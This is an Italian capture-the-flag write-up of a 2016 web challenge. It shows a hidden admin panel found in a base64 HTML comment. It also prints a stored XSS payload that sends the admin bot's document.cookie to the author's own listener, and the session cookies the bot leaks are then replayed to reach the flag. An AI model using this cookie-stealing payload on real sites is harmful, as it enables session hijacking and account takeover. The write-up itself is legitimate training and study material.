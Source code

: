 ```yaml
---
layout: post
title:  "Juniors2016 - Hacker's Blog"
date:   2016-12-14 03:15
categories: CTF
tags: [web,Juniors2016]
author: jbz
---
```


*PREMESSA: per accedere a questa challenge bisognava utilizzare una VPN fornita dagli organizzatori.*

Veniva dato un sito web, `http://10.0.7.216:54337`: un blog.

Cliccando su uno dei post ho notato che l'URL è il canoninco `post.php_id=<id>`. Ho provato a forzare un errore SQL ma era vulnerabile.

Ho notato che i vari post permettevano commenti. Ho provato ad inserire un commento e mi veniva restituito un errore in russo che tradotto diceva:
> Un amministratore deve confermare il commento.

Ho pensato quindi che il sito potrebbe essere vulnerabile ad XSS.

Ho guardato il sorgente della pagina e ho notato questo commento:

`<!-- Secret admin panel: aHR0cDovLzEwLjAuNy4yMTY6NTQzMzcvYWRtaW42NDY0MS5waHA= -->`

Che decodificato restituisce:

`http://10.0.7.216:54337/admin64641.php`

Sono andato a quell'indirizzo e mi veniva restituito un errore (sempre in russo) che tradotto era:
>Username e password sbagliati.

Ho postato quindi un commento con questo payload:

```html
<script>document.write('<img src=http://10.3.2.2:8000/?' + document.cookie +'>')</script>
```

E ho scoperto che il cookie del bot era `login=admin`. Ho impostato il cookie, sono tornato nella pagina admin che ho trovato in precedenza, ma purtroppo ottenevo lo stesso errore.

Ho provato quindi un altro payload, per recuperare `document.location`. Ho ottenuto l'indirizzo `http://10.0.7.216:54337/bot_check.php?check=4e195228ec31dd6f3fef492`. Ho fatto una richiesta a quell'indirizzo e ho notato che il webserver mi ha settato due cookie:

```http
Set-Cookie: login=admin; expires=Mon, 05-Dec-2016 19:35:19 GMT; path=/
Set-Cookie: password=e0377f6e85d987d81e96c0381c789360fe90547bdf9be3b5082a492b9c4184f7; expires=Mon, 05-Dec-2016 19:35:19 GMT; path=/
```

Con questi cookie, sono tornato alla pagina admin che ho trovato in precedenza ed ho ottenuto la flag:

> Флаг:
> 1true_haCkeers1337_XSS